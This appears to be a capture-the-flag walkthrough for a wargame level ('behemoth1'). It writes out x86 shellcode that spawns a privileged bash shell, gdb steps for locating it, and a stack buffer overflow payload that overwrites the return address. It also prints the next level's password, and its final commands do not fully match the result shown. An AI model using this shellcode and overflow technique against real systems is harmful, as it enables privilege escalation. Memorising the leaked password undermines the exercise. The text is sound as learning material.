 ```shell
export CODE=$(python -c 'print "\x90"*100+"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"') 
```

**find where your shellcode is** 

 For now, we have the shellcode in the environment, the address often fix at the time you login. But if you logout and login again, the value of the environment will change. 

 ```shell
(gdb) ./behemoth1 
(gdb) b *main+23 
(gdb) r 
You will stop at your breakpoint, now you can find the address of CODE environment 
(gdb) x/s *((char **)environ+offset) 
0xffffde5d:    "CODE=", '\220' <repeats 100 times>, "j\vX\231Rfh-p\211\341Rjhh/bash/bin\211\343RQS\211\341̀" 
 ```

So now, you have the address of your shellcode: 0xffffde5d. You just need to insert this address into the return address. 

**put your shellcode into the local region** 

 (gdb) r <<< $(python -c 'print "A"*71+"\x90"*100') 

Find the address you want ti insert into this stack:  

python -c "print 'A'\*71 + '\x64\xd6\xff\xff' + '\x90'\*16 + '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'"  > test 

(cat test; cat) | /behemoth/behemoth1 

**change the return address and run our shellcode!** 

behemoth1@behemoth:/behemoth$ python -c "print 'A'*71" | ./behemoth1 

Password: Authentication failure. 

Sorry. 

Segmentation fault 

whoami 

behemoth2 

cat /etc/behemoth_pass/behemoth2 

eimahquuof 

 



Congratulations! You got the passwd! 

 

*****************

There are something we need to know: 
